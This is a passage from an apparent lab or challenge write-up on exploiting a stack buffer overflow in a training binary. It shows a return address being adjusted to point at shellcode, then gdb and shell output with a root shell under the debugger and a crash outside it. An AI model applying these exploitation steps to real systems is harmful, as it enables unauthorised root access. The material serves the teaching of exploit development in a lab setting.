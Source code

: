 It seems that now, our shellcode is located at address `0xffffd836`. Most likely
because the shellcode is much longer than the original parameter, libc moved everything
around a bit. Lets update our exploit yet again, and try it again.

## Test exploit again

Update the exploit:

Replace:
```
ret_addr = "\x7e\xd8\xff\xff"
```

with:
```
ret_addr = "\x36\xd8\xff\xff"
```

Lets try again:
```
(gdb) run `python challenge11-exploit-skel.py` test
Starting program: /root/challenges/challenge11/challenge11 `python challenge11-exploit-skel.py` test
Hello cmd-...
You are not admin.
isAdmin: 0x80cd0bb0
process 572 is executing new program: /bin/dash
# id
uid=0(root) gid=0(root) groups=0(root)
#
```

Success!


## Test exploit without gdb

Lets test it without gdb:

```
root@hlUbuntu32:~/challenges/challenge11# ./challenge11 `python challenge11-exploit-skel.py` test
Hello cmd-...
You are not admin.
isAdmin: 0x80cd0bb0
Segmentation fault (core dumped)
```

Ouch, no shell. We have the analyze the core file.

```
root@hlUbuntu32:~/challenges/challenge11# ulimit -c unlimited
root@hlUbuntu32:~/challenges/challenge11# ./challenge11 `python challenge11-exploit-skel.py` test
Hello cmd-...
You are not admin.
isAdmin: 0x80cd0bb0
Segmentation fault (core dumped)
```
